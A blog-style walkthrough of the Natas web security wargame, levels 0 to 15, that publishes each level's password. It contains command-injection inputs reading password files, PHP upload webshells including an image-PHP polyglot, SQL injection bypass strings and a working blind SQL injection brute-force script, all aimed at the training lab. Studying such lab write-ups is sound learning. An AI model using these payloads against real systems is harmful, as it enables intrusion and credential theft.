# Blog 1: Getting Started with Natas – Web Security Fundamentals

## Introduction

Welcome to the Natas web security challenge series! This blog marks the start of a journey through Natas, a platform created to enhance understanding of web security concepts like basic authentication, HTTP headers, and source code analysis. In this post, I'll guide you through the initial levels, where we’ll explore fundamental techniques for assessing web vulnerabilities.

---

## Levels Overview

- **Levels Covered:** 0–4
- **Theme:** Basics of web authentication, HTTP protocols, and client-server interactions.
- **Skills Learned:**
  - Basic authentication techniques
  - HTTP headers and responses
  - Analyzing HTML and source code for security flaws
  - Introduction to input validation vulnerabilities

---

## Level-by-Level Walkthrough

### Level 0: Source Code Analysis
- **Commands/Tools Introduced:** Browser developer tools.

#### Solution Outline:
1. **Accessing the Page:**
   Look at the source code for the initial page and identify the password for Natas1.

#### Password: `0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq`



---

### Level 1: Source Code Analysis Part 2
- **Commands/Tools Introduced:** Browser developer tools.

#### Solution Outline:
1. **Accessing the Page:**
   Look at the source code for the initial page and identify the password for Natas2. This time, right-click is disabled. Used the shortcut to open the developer tools.

#### Password: `TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI`


---

### Level 2: Publicly Available Files
- **Commands/Tools Introduced:** Developer tools.

#### Solution Outline:

1. **Viewing the Source Code:**
   Looked at the source code. Found reference to `files/pixel.png` and accessed it directly.

2. **Searching for More Clues**
   Accessed the `files` directory and found a file called `users.txt` with the password for Natas3.

#### Password: `3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH`




---

### Level 3: Robots.txt and Hidden Files
- **Commands/Tools Introduced:** Developer tools.

#### Solution Outline:

1. **Source Code Analysis:**
   Looking  at the source code, found a suspicious comment - `<!-- No more information leaks!! Not even Google will find it this time... -->`.

2. **Checking Robots.txt:**
   Found a reference to `/s3cr3t/` in `robots.txt`. Accessed the directory and found the password for Natas4 in `users.txt`.

#### Password: `QryZXc2e0zahULdHrtHxzyYkj59kUxLQ`




---

### Level 4: Referer Header and Access Control

- **Commands/Tools Introduced:** HTTP headers, Burp Suite

#### Solution Outline:

1. **Searching the Web:**
    On the homepage, it says: "Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/".

2. **Spoofing the Referer Header:**
    This prompt suggests that the Referer header is being checked. Spoof the Referer header to access the password for Natas5.

3. **Using Burp Suite:**
    Used Burp Suite to intercept the request and modify the Referer header to `http://natas5.natas.labs.overthewire.org

#### Password: `0n35PkggAPm2zbEpOU802c0x0Msn1ToK`



---

### Level 5: Cookies

- **Commands/Tools Introduced:** Developer Tools

#### Solution Outline:

1. **Homepage:**
    The homepage displays a message: "You are not logged in."

2. **Viewing Cookies:**
    Inspected the cookies for the page and found a cookie named `loggedin` with a value of `0`.

3. **Modifying Cookies:**
    Changed the value of the `loggedin` cookie to `1` using the browser developer tools. After this, we can see the password for Natas6.


#### Password: `0RoJwHdSKWFTYR5WuiAewauSuNaBXned`


---

### Level 6: Source Code Analysis

- **Commands/Tools Introduced:** Developer Tools

#### Solution Outline:

1. **Source Code Analysis:**
    Looked at the source code and found a PHP script that checks for the secret key.

2. **Accessing the Secret:**
    The script checks if the secret key is equal to the value of the `secret` parameter in the URL. Accessed the secret page by setting the `secret` parameter to the correct value.

#### Password: `bmg8SvU1LizuWjx3y7xkNERkHxGre0GS`



---

### Level 7: URL Parameters and Command Injection

- **Commands/Tools Introduced:** URL parameters, Command injection

#### Solution Outline:

1. **Source Code Analysis:**
    Found a PHP script `index.php` that takes a `page` parameter and includes the content of the file specified by the parameter. IN the script it mentions that the password for Natas8 is in `/etc/natas_webpass/natas8`.

2. **Command Injection:**
    Used command injection to read the contents of the password file by passing the appropriate command as the `page` parameter.
    `https://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

#### Password: `xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q`




---

### Level 8: Leaked Secret in Source Code

- **Commands/Tools Introduced:** Developer Tools, Python3

#### Solution Outline:

1. **Source Code Analysis:**
    Found a PHP script that encodes the secret key using base64.
    ```php
    function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
    }
    ```
2. **Decoding the Secret:**
    Wrote a small Python script to decode the secret key

    ```python
    import base64
    encoded_secret = "3d3d516343746d4d6d6c315669563362"
    bytes_data = bytes.fromhex(encoded_secret)
    reversed_data = bytes_data[::-1]
    decoded_secret = base64.b64decode(reversed_data).decode('utf-8')

    print("Decoded secret:", decoded_secret)
    ```
3. **Accessing the Secret:**
    Used the decoded secret to access the password for Natas9.

#### Password: `ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t`



---

### Level 9: Command Injection with URL Parameters

- **Commands/Tools Introduced:** Command injection, URL parameters

#### Solution Outline:

1. **Source Code Analysis:**
    Found a PHP script that takes a `needle` parameter and searches for it in a dictionary file.

2. **Command Injection:**
    Used command injection to read the contents of the password file by passing the appropriate command as the `needle` parameter.
    `anything; cat /etc/natas_webpass/natas10`

#### Password: `t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`


---

### Level 10: Bypassing Filter with Command Injection

- **Commands/Tools Introduced:** Command injection, URL encoding

#### Solution Outline:

1. **Source Code Analysis:**
    Found a PHP script that filters certain characters from the input. The characters it removes are `;`, `|`, and `&`.
    ```php
    <?
    $key = "";

    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }

    if($key != "") {
        if(preg_match('/[;|&]/',$key)) {
            print "Input contains an illegal character!";
        } else {
            passthru("grep -i $key dictionary.txt");
        }
    }
    ?>
    ```
2. **Bypassing the Filter:**
    The `grep` command is structured like this: `grep -i <needle> dictionary.txt`. We can bypass the filter by using the following command:
    `grep -i <needle> <file1.txt> dictionary.txt` as we can provide the file1.txt as the needle and it will be ignored by the filter.
    `a /etc/natas_webpass/natas11`

#### Password: `UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk`




---

### Level 11: Encryption and Decryption

- **Commands/Tools Introduced:** Encryption, Decryption

#### Solution Outline:

1. **Source Code Analysis:**
    Found a PHP script that encrypts the data using a simple XOR cipher.
    ```
    <?
    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

    function xor_encrypt($in) {
        $key = '<censored>';
        $text = $in;
        $outText = '';

        // Iterate through each character
        for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
        }

        return $outText;
    }

    function loadData($def) {
        global $_COOKIE;
        $mydata = $def;
        if(array_key_exists("data", $_COOKIE)) {
        $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
        if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
            if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
            $mydata['showpassword'] = $tempdata['showpassword'];
            $mydata['bgcolor'] = $tempdata['bgcolor'];
            }
        }
        }
        return $mydata;
    }

    function saveData($d) {
        setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
    }

    $data = loadData($defaultdata);

    if(array_key_exists("bgcolor",$_REQUEST)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
            $data['bgcolor'] = $_REQUEST['bgcolor'];
        }
    }

    saveData($data);
    ?>
    ```
2. **Decryption:**
    After analyzing the encryption function, I wrote a decryption function in PHP to decrypt the cookie data.
    Inital Cookie: `HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=`
    ```php
    $originalString = json_encode(array("showpassword" => "no", "bgcolor" => "#ffffff"));
    $cookieString = base64_decode('HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=');
    echo $originalString ^ $cookieString;
    ```
    Ouput came to be `eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoe`. The secret key is probably `eDWo`. The repetition of the key comes from XOR.

3. **Accessing the Password:**
    Another script, in PHP, to encrypt the password and set the cookie.
    ```php
    $key = 'eDWo';
    $newString = json_encode(array("showpassword" => "yes", "bgcolor" => "#ffffff"));
    $cookieData = '';
    for ($i = 0; $i < strlen($newString); $i++) {
        $cookieData .= $key[$i % strlen($key)] ^ $newString[$i];
    }
    echo base64_encode($cookieData);
    ```
    This gave us the cookie as `HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5`. Setting this cookie in the browser gave us the password for Natas12.

#### Password: `yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB`



---

### Level 12: File Upload Vulnerability

- **Commands/Tools Introduced:** File upload, PHP reverse shell

#### Solution Outline:

1. **Source Code Analysis:**
   Analyzed a PHP script that accepts a `filename` parameter via `$_POST`. This script extracts the file extension from the uploaded filename and allows files to be uploaded as long as they end with `.php`.

2. **PHP File Upload:**
   Uploaded a malicious PHP file with the filename set to `malicious.php`, which contained the following code:
   ```php
    <?php
   echo exec("cat /etc/natas_webpass/natas13");
    ?>
   ```

3. **Accessing the Uploaded File:**
   After successfully uploading the PHP file, Saw it got uploaded as JPG. This became JPG as there was a piece of code in the source code that changed the extension. After this, run the file to get the password for Natas13.

#### Password: `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`



---

### Level 13: File Upload Vulnerability Part 2

- **Commands/Tools Introduced:** File upload, PHP reverse shell

#### Solution Outline:

1. **Source Code Analysis:**
   This time, the php code is doing a check that checks the "magic" bytes of the file to ensure it is an image. We can bypass this by uploading a file that is both an image and a PHP file.

2. **Creating a PHP Shell:**
    ```python
    with open('natas13.jpeg', 'wb') as shell:
    shell.write(b'\xFF\xD8\xFF\xE0' + b"<?php passthru('cat /etc/natas_webpass/natas14'); ?>")

    ```

3. **Uploading the File:**
    We upload it as we did it last time and then access the file to get the password for Natas14.

#### Password: `z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`



---

### Level 14: SQL Injection

- **Commands/Tools Introduced:** SQL injection

#### Solution Outline:

1. **Source Code Analysis:**
   Found a PHP script that takes a `username` and `password` parameter and checks them against a database. The code is vulnerable to SQL injection.

2. **SQL Injection:**
    Used SQL injection to bypass the login check `" or 1=1 --` as the username and password. This will return the password for Natas15.

#### Password: `SdqIqBsFcz3yotlNYErZSZwblkm0lrvx`

---

### Level 15: Blind SQL Injection 

- **Commands/Tools Introduced:** SQL injection

#### Solution Outline:

1. **Source Code Analysis:**
   Found a PHP script that takes a `username` parameter and checks it against a database. The code is vulnerable to SQL injection as when we run `" or 1=1 --` as the username, it returns error in the query.

2. **SQL Injection:**
   We can see in the source code, we would need to bruteforce the password.
   This can be done using a python script.
   ```python
    import requests
    target = "http://natas15.natas.labs.overthewire.org/"
    charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    natas15_password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"

    while len(password) < 32:
        for c in charset:
            test_password = password + c + "%"
            username = f'natas16" AND password LIKE BINARY "{test_password}" "'
            r = requests.get(
                target, auth=("natas15", natas15_password), params={"username": username}
            )
            if "This user exists" in r.text:
                password += c
                print(f"Password so far: {password}")
                break

    print(f"Final password: {password}")
    ```
3. **Accessing the Password:**
    After running the script, we get the password for Natas16.

#### Password: `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`

---


## Key Takeaways

- **SQL Injection:** Learned how to exploit SQL injection vulnerabilities to bypass login checks and extract sensitive information.
- **File Upload Vulnerabilities:** Explored file upload vulnerabilities to execute arbitrary code on the server.
- **Encryption and Decryption:** Analyzed encryption schemes and wrote decryption scripts to reveal hidden information.
- **Command Injection:** Leveraged command injection to execute system commands and read sensitive files.

---

## Cheatsheet for This Week

### Commands & Tools Used:
- **Developer Tools**: Browser developer tools were used to inspect elements, modify cookies, and view page source code.
- **Burp Suite**: Intercept and modify HTTP headers.
- **Command Injection**: Used URL parameters to inject commands (e.g., `cat /etc/natas_webpass/natasX`).
- **SQL Injection**:
  - `username=" or 1=1 --` for bypassing login
  - Blind SQL Injection to brute force password character by character
- **PHP Scripting**:
  - XOR-based encryption/decryption for cookies
  - File uploads with PHP code for reverse shell
  - Encoding and decoding of parameters using `base64` and `hex`
- **Python Scripts**:
  - Base64 decoding:
    ```python
    import base64
    encoded_secret = "3d3d516343746d4d6d6c315669563362"
    bytes_data = bytes.fromhex(encoded_secret)
    reversed_data = bytes_data[::-1]
    decoded_secret = base64.b64decode(reversed_data).decode('utf-8')
    ```
  - Blind SQL Injection Brute Force:
    ```python
    import requests
    target = "http://natas15.natas.labs.overthewire.org/"
    charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    natas15_password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"

    while len(password) < 32:
        for c in charset:
            test_password = password + c + "%"
            username = f'natas16" AND password LIKE BINARY "{test_password}" "'
            r = requests.get(
                target, auth=("natas15", natas15_password), params={"username": username}
            )
            if "This user exists" in r.text:
                password += c
                break

    print("Password:", password)
    ```

### SQL Commands:
- Basic SQL Injection: `username=" or 1=1 --`
- Blind SQL Injection using `LIKE BINARY` operator to check characters of the password


## Software Vulnerability Insights

### Key Vulnerabilities Exploited:
1. **Command Injection**:
   - Injection into URL parameters allowed direct system commands.
   - Examples: Running `cat` commands to access password files.

2. **File Upload Vulnerability**:
   - Lacked checks on file types, allowing PHP shell uploads.
   - Solution involved checking file “magic bytes” but was bypassed by crafting files with both image and PHP code.

3. **SQL Injection**:
   - Lack of parameterized queries led to SQL injection vulnerabilities.
   - Techniques used included bypassing login checks and blind SQL injection for password extraction.

4. **Weak Authentication and Cookie Manipulation**:
   - Session management flaws allowed cookie modification (changing `loggedin` from `0` to `1`).
   - XOR encryption in cookies with repeated key usage made decryption trivial.

5. **Insecure File Access Controls**:
   - Directory access allowed for finding sensitive files (e.g., accessing `/s3cr3t/users.txt` through `robots.txt`).

These sections summarize the tools, techniques, and key vulnerabilities encountered across the walkthrough. Let me know if you need a more detailed breakdown of any particular section!